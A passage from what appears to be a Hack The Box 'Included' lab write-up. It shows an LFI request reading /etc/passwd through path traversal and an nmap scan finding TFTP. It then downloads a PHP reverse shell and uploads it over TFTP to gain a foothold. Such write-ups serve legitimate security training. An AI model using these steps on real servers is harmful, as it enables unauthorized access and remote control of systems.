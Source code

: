 If function has no relative path and force with work directory like /var/www/html, we can do it the same changeing the path like this:
```curl http://$SERVERIP/?file=../../../etc/passwd```

We se tftp user on password file, lets check if services is running (UDP):

```shell
└──╼ $sudo nmap -p 69 -sU $SERVERIP
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-03 21:57 CEST
Nmap scan report for 10.129.95.185
Host is up (0.034s latency).

PORT   STATE         SERVICE
69/udp open|filtered tftp

Nmap done: 1 IP address (1 host up) scanned in 0.53 seconds
┌─[darthv@parrot]─[~/hackthebox/StartingPoint/Included]
└──╼ $

```

# Foothold

We will access to serve with LFI uploading ghough tftp. Lets serch on google php reverse shell, and downlad the following [script](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php), replace ip and port vars on it.

```shell
└──╼ $wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
--2022-09-03 21:53:15--  https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.111.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5491 (5,4K) [text/plain]
Saving to: ‘php-reverse-shell.php’

php-reverse-shell.php   100%[=============================>]   5,36K  --.-KB/s    in 0s      

2022-09-03 21:53:15 (12,8 MB/s) - ‘php-reverse-shell.php’ saved [5491/5491]
```

Lets change ip var and upload shell.php file to server:
```shell
└──╼ $tftp $SERVERIP
tftp> put shell.php
Sent 5686 bytes in 0.4 seconds
tftp> quit
```
